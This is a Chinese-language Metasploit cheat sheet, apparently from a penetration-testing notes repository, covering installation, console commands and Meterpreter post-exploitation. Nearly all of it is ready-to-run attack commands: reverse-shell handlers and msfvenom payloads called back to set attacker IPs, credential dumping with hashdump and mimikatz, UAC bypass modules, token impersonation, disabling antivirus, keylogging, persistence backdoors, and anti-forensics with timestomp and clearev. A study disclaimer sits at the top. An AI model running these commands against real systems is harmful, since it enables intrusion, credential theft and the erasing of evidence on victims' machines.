





# Metasploit

<p align="center">
    
</p>

> 注 : 笔记中拓扑图 xmind 源文件在其图片目录下

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**项目地址**
- https://github.com/rapid7/metasploit-framework

**文章 & Reference**
- [MSF基础命令新手指南](https://www.jianshu.com/p/77ffbfc3a06c)
- [[渗透神器系列]Metasploit](https://thief.one/2017/08/01/1/)
- [给kali的Metasploit下添加一个新的exploit](https://blog.csdn.net/SilverMagic/article/details/40978081)
- [linux - Metasploit: Module database cache not built yet, using slow search](https://serverfault.com/questions/761672/metasploit-module-database-cache-not-built-yet-using-slow-search)
- [Nightly Installers](https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers)
- [探寻Metasploit Payload模式背后的秘密](https://www.freebuf.com/articles/system/187312.html)
- [记一次PowerShell配合Metersploit的艰难提权](https://mp.weixin.qq.com/s/Y4rT3ECaSLNgr8KrG-xtTw)

**图形化 UI**
- [FunnyWolf/Viper](https://github.com/FunnyWolf/Viper) - 非常牛逼,推荐
- [WayzDev/Kage](https://github.com/WayzDev/Kage)
- [rsmudge/armitage](https://github.com/rsmudge/armitage)

---

# 安装及维护

**安装**

使用 Rapid7 的一套快速安装项目 metasploit-omnibus,可以实现一句话安装
```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
```

安装完成后位置 `/opt/metasploit-framework/embedded/framework/`

**框架组成**

Metasploit 主要包含了以下几个功能模块
- msfconsole：整个框架最基本的模块，所有的功能都可以该模块下运行。
- msfvenom：代替了 msfpayload 和 msfencode 的功能，效率更高。
- msfupdate：用于软件更新，更新漏洞库和利用代码。
- msfweb：Metasploit Framework 的 web 组件，支持多用户，是 Metasploit 图形化接口。

**目录结构**
```bash
modules
    - auxiliary     # 主要包含辅助性脚本(扫描、嗅探、注入、爆破，漏洞挖掘)
    - encoders      # 主要包含各种编码工具，以便绕过入侵检测和过滤系统
    - exploits      # 漏洞利用，包含主流的漏洞利用脚本，exp 命名规则:系统/服务/模块
    - nops          # 绕过针对溢出攻击滑行字符串的拦截检测
    - payloads      # 攻击荷载，主要在目标机器执行代码
    - post          # 此目录放着 msf 的 exploit 执行成功后，向目标发送的一些功能性指令，如提权，获取 hash 等
    - evasion       # 新增，用来生成免杀 payload，类似于集成 msfvenom 功能
data        # 存放 meterpreter ，passiveX，vnc，DLLs，等这些工具和一些用户接口代码，msfweb 和一些其他模块用到的数据文件
plugins     # 这里的模块用户需要 load 来加载，提供数据库连接插件和各种要用到的插件
scripts     # 这个目录下的文件大都是 meterpreter 这个模块利用的脚本，比如用到 migrate 来转移到其他进程的指令的源代码就在此
tools       # 包含一些有用的脚本和零散的工具
```

**启动**
```bash
msfconsole          # 运行
msfdb init          # 初始化数据库
db_rebuild_cache    # 重建缓存
db_status           # 查看数据库连接情况
```

**更新**

对于 kali 自带的 msf 可以使用 apt 更新
```bash
apt-get update
apt-get install -y metasploit-framework
```

嫌官方源速度慢可以添加阿里云的源
```vim
vim /etc/apt/sources.list

deb http://mirrors.aliyun.com/kali kali-experimental main non-free contrib
deb-src http://mirrors.aliyun.com/kali kali-experimental main non-free contrib
```

也可以直接使用 `msfupdate`

**Module database cache not built yet, using slow search**

> 注: 5.0.0 之后就不需要这个了

```bash
service postgresql start
msfdb init
db_rebuild_cache
```

**添加一个新的 exploit**

1. 在 `/usr/share/metasploit-framework/modules/exploits/` 目录下新建一个自定义文件夹 aaatest,将 rb 脚本扔进去
2. 启动 metasploit
3. 输入 reload_all 重新加载所有模块
4. use exploit/aaatest/exp(输入的时候可以用 tab 补全,如果不能补全说明就有问题)

**msfvenom**

使用 msfvenom 生成 payload 内容见 [权限维持](../RedTeam/后渗透/权限维持.md#msfvenom)

---

# 基本使用

**启动**
```bash
msfconsole -a 		# 退出Metasploit前询问或接受“exit-y”
msfconsole -H 		# 历史文件文件将命令历史记录保存到指定文件
msfconsole -o 		# 将文件输出到指定文件
msfconsole -p 		# 插件插件在启动时加载插件
msfconsole -q 		# 安静不要在启动时打印横幅	（静默启动）
msfconsole -r 		# 资源文件执行指定的资源文件（-对于stdin）
msfconsole -x 		# execute command命令执行指定的控制台命令（用于多个）
msfconsole -h 		# 帮助显示此消息
msfconsole -v 		# 显示版本信息
```

**启动后**
```bash
banner                          # 打印 banner
color ['true'|'false'|'auto']   # 切换颜色显示
back                            # 返回
use                             # 指定模块
info                            # 查看模块信息
sessions                        # 查看会话
jobs                            # 显示当前运行进程
kill                            # 结束进程
reload_all                      # 重新加载所有模块
search                          # 搜索模块
version                         # 显示当前版本

show exploits 			        # 查看所有可用的渗透攻击程序代码
show auxiliary 			        # 查看所有可用的辅助攻击工具
show options 			        # 查看该模块所有可用选项
show payloads 			        # 查看该模块适用的所有载荷代码
show targets 			        # 查看该模块适用的攻击目标类型

set                             # 设置一个特定的上下文变量的值
setg                            # 设置一个全局变量的值
threads                         # 查看和操作后台线程
unset                           # 取消设置一个或多个特定的上下文变量
unsetg                          # 取消设置一个或多个全局变量的
```

---

# 常用模块

**信息收集**

利用 auxiliary 这个模块来获取目标网端的信息,包括端口开放情况、主机存活情况.
```bash
use auxiliary/scanner/discovery/arp_sweep       # arp 扫描
use auxiliary/scancer/smb/smb_version           # 存活的 445 主机
use auxiliary/scanner/portscan/syn              # 端口扫描
use auxiliary/scanner/portscan/tcp              # TCP 端口扫描
use auxiliary/scanner/telnet/telnet_version     # telent 服务扫描
use auxiliary/scanner/rdp/rdp_scanner           # 远程桌面服务扫描
use auxiliary/scanner/ssh/ssh_version           # ssh 主机扫描
use auxiliary/scanner/smb/smb_version           # smb 服务扫描
use auxiliary/scanner/ip/ipidseq                # IPID 序列扫描器
use auxiliary/scanner/mssql/mssql_ping          # mssql
use auxiliary/scanner/http/webdav_scanner       # webdav
```

**爆破**
```bash
use auxiliary/scanner/mysql/mysql_login         # 爆破 mysql
use auxiliary/scanner/mssql/mssql_login         # 爆破 mssql
use auxiliary/scanner/ssh/ssh_login             # 爆破 SSH
use auxiliary/scanner/snmp/snmp_enum            # 枚举 snmp
use auxiliary/scanner/vnc/vnc_login             # 爆破 VNC
use auxiliary/scanner/http/tomcat_mgr_login     # 爆破 tomcat
```

---

# meterpreter

Meterpreter 属于 stage payload，在 Metasploit Framework 中，Meterpreter 是一种后渗透工具，它属于一种在运行过程中可通过网络进行功能扩展的动态可扩展型 Payload。这种工具是基于 “内存 DLL 注入” 理念实现的，它能够通过创建一个新进程并调用注入的 DLL 来让目标系统运行注入的 DLL 文件。

首先目标先要执行初始的溢出漏洞会话连接，可能是 bind 正向连接，或者反弹 reverse 连接。反射连接的时候加载 dll 链接文件，同时后台悄悄处理 dll 文件。其次 Meterpreter 核心代码初始化, 通过 socket 套接字建立一个 TLS 加密隧道并发送 GET 请求给 Metasploit 服务端。Metasploit 服务端收到这个 GET 请求后就配置相应客户端。最后，Meterpreter 加载扩展，所有的扩展被加载都通过 TLS 进行数据传输。

## Tips

可以将攻击代码写入 configure.rc（只要是以 .rc 结尾的文件）配置文件中，然后使用命令
```bash
msfconsole -r configure.rc
```
进行自动攻击

---

## 获取会话

**handler**
```bash
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set lhost [lhost]
set lport [lport]
exploit -j  # 后台执行
```

**cmdshell 升级为 meterpreter**

如果最开始获取的是 cmdshell,后来发现这台机器非常适合作为测试其它终端的跳板,这个时候 cmdshell 的功能已经不能满足需要,升级成 meterpreter 就十分有必要.`sessions -u "id"` 将该 cmdshell 升级成 meterpreter

**注意事项**

如果 meterpreter session 创建成功了,但很快就断连,此时应该修改使用的 payload,优先改成 generic/shell_reverse_tcp 等

如果还不成功,切换回连端口或者改成 bind shell 试试

---

## 信息收集

**查看权限**
```bash
getuid          # 查看当前用户
load powershell
powershell_shell
PS > Get-Acl -Path HKLM:\SAM\SAM | Format-List          # 查看 Users 或 Everyone 是否有 SAM 注册表项的读取权限
```

**截屏**
```bash
use espia
screenshot
screengrab
```

**摄像头**
```bash
webcam_snap -i 1 -v fales                               # 不开闪光灯拍照
```

**环境检测**
```bash
run post/windows/gather/checkvm                         # 是否虚拟机
run post/linux/gather/checkvm                           # 是否虚拟机

run post/windows/gather/enum_applications               # 获取目标主机安装软件信息;
run post/windows/gather/enum_patches                    # 查看目标主机的补丁信息;
run post/windows/gather/enum_domain                     # 查找目标主机域控.
run post/windows/gather/enum_logged_on_users            # 列举当前登录过主机的用户;
run post/windows/gather/credentials/windows_autologin   # 抓取自动登录的用户名和密码;

run post/windows/gather/forensics/enum_drives           # 查看分区
run post/windows/gather/enum_applications               # 获取安装软件信息
run post/windows/gather/dumplinks                       # 获取最近的文件操作
run post/windows/gather/enum_ie                         # 获取 IE 缓存
run post/windows/gather/enum_chrome                     # 获取 Chrome 缓存
run post/windows/gather/enum_patches                    # 补丁信息
run post/windows/gather/enum_domain                     # 查找域控

run post/linux/busybox/enum_hosts                       # 读取/var/hosts
run post/windows/gather/enum_hostfile                   # 读取 %windir%\system32\drivers\etc\hosts
```

**抓取密码**
```bash
run hashdump                        # 获取用户密码 hash 值

load mimikatz                       # 加载 mimikatz,用于抓取密码,不限于明文密码和 hash 值;
msv                                 # 获取的是 hash 值
ssp                                 # 获取的是明文信息
kerberos
wdigest                             # 读取内存中存放的账号密码明文信息
mimikatz_command -f samdump::hashes # 获取用户 hash
mimikatz_command -f handle::list    # 列出应用进程
mimikatz_command -f service::list   # 列出服务

run windows/gather/credentials/windows_autologin    # 抓取自动登录的用户名和密码
run windows/gather/smart_hashdump

或

use post/windows/gather/hashdump
set session 1
Exploit
```

**sniffer**
```bash
use sniffer
sniffer_interfaces                  # 查看网卡信息
sniffer_start 1                     # 开始在序号为1的网卡上抓包
sniffer_dump 1 xpsp1.cap            # 下载抓取到的数据包
```

对抓取的包进行解包
```bash
use auxiliary/sniffer/psnuffle
set pcapfile 1.cap
run
```

---

## 权限提升

```bash
getuid      # 查看当前权限
getsystem   # 提权
getuid      # 再次查看判断是否提权成功
```

**绕过 UAC**

通常 webshell 的权限都比较低,能够执行的操作有限,没法查看重要文件、修改系统信息、抓取管理员密码和 hash、安装特殊程序等,所以我们需要获取系统更高的权限

1. 什么是 UAC？

    Microsoft 的 Windows Vista 和 Windows Server 2008 操作系统引入了一种良好的用户帐户控制架构,以防止系统范围内的意外更改,这种更改是可以预见的,并且只需要很少的操作量.它是 Windows 的一个安全功能,它支持防止对操作系统进行未经授权的修改,UAC 确保仅在管理员授权的情况下进行某些更改.如果管理员不允许更改,则不会执行这些更改,并且 Windows 系统保持不变.

2. UAC 如何运行？

    UAC 通过阻止程序执行任何涉及有关系统更改/特定任务的任务来运行.除非尝试执行这些操作的进程以管理员权限运行,否则这些操作将无法运行.如果你以管理员身份运行程序,则它将具有更多权限,因为它将被"提升权限",而不是以管理员身份运行的程序.

    因为有的用户是没有管理员权限,没有管理员权限是运行不了那些只能通过管理员权限才能操作的命令.比如修改注册表信息、创建用户、读取管理员账户密码、设置计划任务添加到开机启动项等操作.

    最直接的提权命令 : getsystem

    绕过 UAC 防护机制的前提是我们首先通过 explloit 获得目标主机的 meterprter.获得 meterpreter 会话 1 后,输入以下命令以检查是否是 system 权限.这里直接上命令.我们需要把获取到的 session 保存到后台,执行 background

```bash
background
use exploit/windows/local/bypassuac
# 将通过进程注入使用可信任发布者证书绕过 Windows UAC.它将生成关闭 UAC 标志的第二个 shell.
sessions        # 查看目前的 session
sessions -k     # 杀死所有 session
set session     # 设为你需要 exploit 的 session
```

- **Windows 权限提升绕过 UAC 保护(内存注入)**
    ```
    background
    use exploit/windows/local/bypassuac_eventvwr
    set session 1
    Exploit
    ```

- **通过 COM 处理程序劫持**

    此模块将通过在 hkcu 配置单元中创建 COM 处理程序注册表项来绕过 Windows UAC.当加载某些较高完整性级别进程时,会引用这些注册表项,从而导致进程加载用户控制的 DLL.这些 DLL 包含导致会话权限提升的 payload.此模块修改注册表项,但在调用 payload 后将清除该项.这个模块需要 payload 的体系架构和操作系统匹配,但是当前的低权限 meterpreter 会话体系架构中可能不同.如果指定 exe::custom,则应在单独的进程中启动 payload 后调用 ExitProcess().此模块通过目标上的 cmd.exe 调用目标二进制文件.因此,如果 cmd.exe 访问受到限制,此模块将无法正常运行.
    ```
    background
    use exploit/windows/local/bypassuac_comhijack
    set session 1
    Exploit
    ```

- **通过 Eventvwr 注册表项**

    此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动 Windows 事件查看器时调用的自定义命令来绕过 Windows UAC.它将生成关闭 UAC 标志的第二个 shell.此模块修改注册表项,但在调用 payload 后将清除该项.该模块不需要 payload 的体系架构和操作系统匹配.如果指定 EXE ::Custom,则应在单独的进程中启动 payload 后调用 ExitProcess().
    ```
    background
    use exploit/windows/local/bypassuac_eventvwr
    set session 1
    Exploit
    ```

**利用系统漏洞提权**

除了这些模块还有其它的通过直接通过 incognito 中的 add_localgroup_user 提升、ms13-081、ms15-051、ms16-032、MS16-016、MS14-068、ms18_8120_win32k_privesc 域权限提升等其它的权限提升方法.
```bash
background
use exploit/windows/local/ms13_081_track_popup_menu # 以 ms13-081 为例
set session
Exploit

# 或

background
use post/windows/gather/enum_patches
set session
Exploit
```

**令牌假冒**

在用户登录 windows 操作系统时,系统都会给用户分配一个令牌(Token),当用户访问系统资源时都会使用这个令牌进行身份验证,功能类似于网站的 session 或者 cookie.

msf 提供了一个功能模块可以让我们假冒别人的令牌,实现身份切换,如果目标环境是域环境,刚好域管理员登录过我们已经有权限的终端,那么就可以假冒成域管理员的角色.
```bash
getuid                              # 查看当前用户
use incognito                       # 进入该模块
list_tokens -u                      # 查看存在的令牌
impersonate_token [Username]        # 令牌假冒
# 注意用户名的斜杠需要写两个.

getuid                              # 查看是否切换成功
```

---

## 文件操作

**操作文件系统**
```bash
ls                  # 列出当前路径下的所有文件和文件夹.
pwd/getwd           # 查看当前路径
search              # 搜索文件,使用 search -h 查看帮助.
cat                 # 查看文件内容,比如 cat test.txt.
edit                # 编辑或者创建文件.和 Linux 系统的 vm 命令类似,同样适用于目标系统是 windows 的情况.
rm                  # 删除文件.
cd                  # 切换路径.
mkdir               # 创建文件夹.
rmdir               # 删除文件夹.
getlwd/lpwd         # 查看自己系统的当前路径.
lcd                 # 切换自己当前系统的目录.
lls                 # 显示自己当前系统的所有文件和文件夹.
```

**上传和下载**

```bash
upload [file] [destination]         # 上传文件到 Windows 主机
# 注意:使用 -r 参数可以递归上传上传目录和文件

download [file] [path to save]      # 从 windows 主机下载文件
# 注意:Windows 路径要使用双斜线
# 如果我们需要递归下载整个目录包括子目录和文件,我们可以使用 download -r 命令
```

**搜索文件**

```bash
search -f *config*
```

**改变文件时间**

```bash
timestomp -v a.txt                  # 查看 a 的时间戳
timestomp a.txt -f b.txt            # 使用 b 的时间覆盖 a 的时间
```

---

## 横向

**域管理员嗅探**

```bash
use post/windows/gather/enum_domain
set session 1
exploit
```

---

## 端口转发和内网代理

**网络命令**

```bash
Ipconfig/ifconfig                   # 查看目标主机 IP 地址;
arp -a                              # 用于查看高速缓存中的所有项目;
route                               # 打印路由信息;
netstat -na                         # 可以显示所有连接的端口
```

其中路由信息对于渗透者来说特有用,因为攻击机处于外网,目标主机处于内网,他们之间是不能通信的,故需要添加路由来把攻击机的 IP 添加到内网里面,这样我们就可以横扫内网,就是所谓的内网代理.

首先我们需要获取网段,然后再添加路由,添加成功后就可以横向扫描内网主机.

```bash
run get_local_subnets                   # 获取网段
run autoroute -s 192.168.205.1/24       # 添加路由
run autoroute -p                        # 查看路由
run autoroute -d -s 172.2.175.0         # 删除网段
run post/windows/gather/arp_scanner RHOSTS=7.7.7.0/24   # 探测该网段下的存活主机.
meterpreter > background                # 后台 sessions
```

或者自动化

```bash
use post/multi/manage/autoroute
set session 1
exploit
```

**portfwd**

portfwd 是 meterpreter 提供的端口转发功能,在 meterpreter 下使用 portfwd -h 命令查看该命令参数.

```bash
portfwd add -l 2222 -r 1.1.1.1 -p 3389  # 将 1.1.1.1 的 3389 端口转发到本地的 2222 端口.
    -l:本地监听端口
    -r:内网目标的 ip
    -p:内网目标的端口

portfwd delete -l [port]
portfwd list

例如:
portfwd add -r 127.0.0.1 -p 3389 -l 1234
```

**pivot**

pivot 是 msf 最常用的代理,可以让我们使用 msf 提供的扫描模块对内网进行探测.

```bash
route add [ip] [mask] [session id]      # 添加一个路由
route print
```

如果其它程序需要访问这个内网环境,就可以建立 socks 代理

msf 提供了3个模块用来做 socks 代理.
```
auxiliary/server/socks4a
auxiliary/server/socks5
auxiliary/server/socks_unc

use auxiliary/server/socks4a
SRVHOST:监听的 ip 地址,默认为 0.0.0.0,一般不需要更改.
SRVPORT:监听的端口,默认为 1080.
```

直接运行 run 命令,就可以成功创建一个 socks4 代理隧道,在 linux 上可以配置 proxychains 使用,在 windows 可以配置 Proxifier 进行使用.

---

## 权限维持

**关闭防病毒软件**

```bash
run killav
```

一个技巧是注入到 service.exe/svchost.exe 或 高权限杀软中 干掉 其他杀软

**关闭进程**

```bash
pkill [进程名]
```

**键盘记录**

```bash
keyscan_start   # 开启键盘记录功能
keyscan_dump    # 显示捕捉到的键盘记录信息
keyscan_stop    # 停止键盘记录功能
```

**执行程序**
```bash
execute -f [path] [options] # 在目标主机上执行 exe 文件
-H : 创建一个隐藏进程
-a : 传递给命令的参数
-i : 跟进程进行交互
-m : 从内存中执行
-t : 使用当前伪造的线程令牌运行进程
-s : 在给定会话中执行进程
```

**进程迁移**

当 meterpreter 单独作为一个进程运行时容易被发现,如果将它和系统经常运行的进程进行绑定,就能够实现持久化.
```bash
getpid          # 查看当前会话的进程 id
ps              # 查看目标运行的进程
migrate [pid]   # 绑定/迁移进程
```

**后门**

MSF 自带两种植入后门的方式

Meterpreter 的 shell 运行在内存中,目标重启就会失效,如果管理员给系统打上补丁,那么就没办法再次使用 exploit 获取权限,所以需要持久的后门对目标进行控制

- **metsvc 服务后门**

    原理：命令运行成功后会在 `C:\Users\用户名\AppData\Local\Temp` 目录下新建随机名称的文件夹,里面生成3个文件(metsvc.dll、metsvc-server.exe、metsvc.exe)同时会新建一个服务,显示名称为 Meterpreter,服务名称为 metsvc,启动类型为"自动",绑定在 31337 端口.

    ```bash
    # 自动化安装
    run metsvc -A

    use exploit/multi/handler
    set payload windows/metsvc_bind_tcp
    set rhost [lhost]
    set lport 31337
    exploit -j
    ```

- **persistence 启动项后门**

    原理就是在 `C:\Users\用户名\AppData\Local\Temp` 下上传一个 VBS 脚本，通过该脚本，在注册表 `HKLM\Software\Microsoft\Windows\CurrentVersion\Run\` 下新建一个开机启动项

    ```bash
    # 自动化部署
    run persistence -A

    run persistence -X -i 10 -r 192.168.1.9 -p 4444
    -A : 安装后门后,自动启动 exploit/multi/handler 模块连接后门
    -L : 自启动脚本的路径,默认为 %TEMP%
    -P : 需要使用的 payload,默认为 windows/meterpreter/reverse_tcp
    -S : 作为一个服务在系统启动时运行(需要 SYSTEM 权限)
    -T : 要使用的备用可执行模板
    -U : 用户登录时运行
    -X : 系统启动时运行
    -i : 后门每隔多少秒尝试连接服务端
    -p : 服务端监听的端口
    -r : 服务端 ip
    ```

    ```bash
    use exploit/multi/handle
    set payload windows/meterpreter/reverse_tcp
    set LHOST [lhost]
    set LPORT [lport]
    exploit -j
    ```

**RDP**
```bash
run post/windows/manage/enable_rdp  # 开启 3389 远程桌面;
run post/windows/manage/enable_rdp username=xxx password=xxx    # 添加远程桌面的用户(同时也会将该用户添加到管理员组)
```

**vnc**
```bash
run vnc                             # 分段注入VNC DLL
```

**注册表操作**

通过注册表设置开机自启动

```bash
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run

reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v note -d 'C:\Windows\System32\notepad.exe'

reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run

reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v note
```

通过注册表复制克隆用户

```bash
reg enumkey -k HKLM\\sam\\sam\\domains\\account\\users
shell
net user guest /active:yes
reg copy HkLM\sam\sam\domains\account\users\000001f4 HkLM\sam\sam\domains\account\users\000001f5
```

---

## 痕迹清除

```bash
clearev     # 入侵痕迹擦除
```

**反电子取证**

```bash
timestomp -v secist.txt                     # 查看当前目标文件 MACE 时间.
timestomp -f c:\\AVScanner.ini secist.txt   # 将模板文件 MACE 时间,复制给当前文件
timestomp -v secist.txt
```

---

# stage 和 stageless 的区别

> 以下部分内容来自 <sup>[探寻Metasploit Payload模式背后的秘密](https://www.freebuf.com/articles/system/187312.html)</sup>

在 MSF 里有很相似的 metasploit payload,比如

```
payload/windows/x64/meterpreter/reverse_tcp  normal  No  Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
payload/windows/x64/meterpreter_reverse_tcp  normal  No  Windows Meterpreter Shell, Reverse TCP Inline x64
```

这2者有什么关系呢?以 08067 模块的利用为例

**Stage**

- bootstrap(starger) : shellcode
- metserv : Meterpreter 核心文件
- stdapi : 计算机文件、系统、网络等属性的访问
- priv : 权限提升、转储密码 hash 和本地提权

当我们使用 metasplit 的 ms08_067_netapi 模块之后，使用 payload/windows/meterpreter/reverse_tcp 模块，并开启一个 multi/handler 连接监听着我们本机的 4444 端口，有了解过缓冲区溢出的同学可能都知道，攻击者会利用软件的某个缺陷来传输一段很长的 shellcode 来溢出目标的缓冲区，从而控制 EIP 指针来跳转到我们的 shellcode 上，执行我们的代码，但是这段 shellcode 并不能过长，shellcode 过长，可能会导致覆盖到了上一函数栈帧的数据，导致异常的发生。所以像我们攻击者最希望就是生成一段短小精悍的 shellcode



像下面这张图，我们攻击机像目标靶机发送了一段 shellcode，并覆盖了 EIP，导致程序执行的时候跳回 shellcode 的开头，从而控制程序的执行情况，执行我们的恶意代码，这段恶意代码就只要干两件事，第一件事就是向内存申请开辟一块空间，第二件事就是回连我们的 4444 端口，这段 shellcode 为我们干的事情就好像是一个前排冲锋的战士，打开城墙的大门好让更多的精兵冲进来。我们称这段 shellcode 为 stage0，也就是第一阶段



这时，我们的攻击机，已经开始监听 4444 端口了，只要连接一成功，就会把 meterpreter shell 最核心的 dll 文件发送到靶机上



我们之前说过，当靶机运行了我们的 shellcode，会在内存里面开辟一块土地，这个地方就是为我们的 metsrv 留的，metsrv.dll 这个文件是 meterpreter 的核心组件，有了他，我们才能获取到一个 meterpreter shell，当 metsrv 传输成功之后，shellcode 就会把控制权转给 metsrv，metsrv 这时再去请求另外两个 dll 文件 stdapi 和 priv。这个时候目标就上线了.



**Stageless**

现在我们知道了 meterpreter/reverse_tcp 是分阶段的 shellcode，并且他分阶段的原因是因为在溢出攻击的时候 shellcode 应该尽可能保持得更短，这个时候理解他小兄弟 meterpreter_reverse_tcp 就方便的多，和 meterpreter/reverse_tcp 不同的是，他的小兄弟 meterpreter_reverse_tcp 是一个不分阶段的 payload，我们称之为 stageless(unstage)，他在生成的时候就已经将我们获取一个 meterpreter 必须要用的 stdapi 已经包含在其中了。那这又有什么好处呢？试想一下，如果我们通过层层的代理，在内网进行漫游，这个时候使用分阶段的 payload 如果网络传输出现了问题，metsrv.dll 没有加载过去，可能就会错失一个 shell，stageless 的 payload 会让人放心不少

默认的 stageless payload 只会包含 stageless，所以如果想将 stdapi 和 priv 两个组件给包含进去的话我们可以用 extensions 命令：
```bash
msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.16.52.1 LPORT=4444 EXTENSIONS=stdapi,priv -f exe -o stageless.exe
```

**回弹至 nc**

分阶段的 payload，我们必须使用 exploit/multi/handler 这个模块使用，但是当我们想回弹一个基础的 shell 的时候，其实可以使用 nc 来监听端口直接回连到 nc 上

当有时获取到了 root 权限，想反弹 linux shell 的时候，这时 meterprter 的需求就不是那么高了，我们就可以使用 shell_reverse_tcp(或者是 bind) 来生成一个 stageless 的 bash 脚本，直接使用 nc 来接受 shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.141.143 LPORT=4444 -f exe > ./vu.exe
```

nc 监听
```bash
nc -tvlp 4444
```

接收回弹


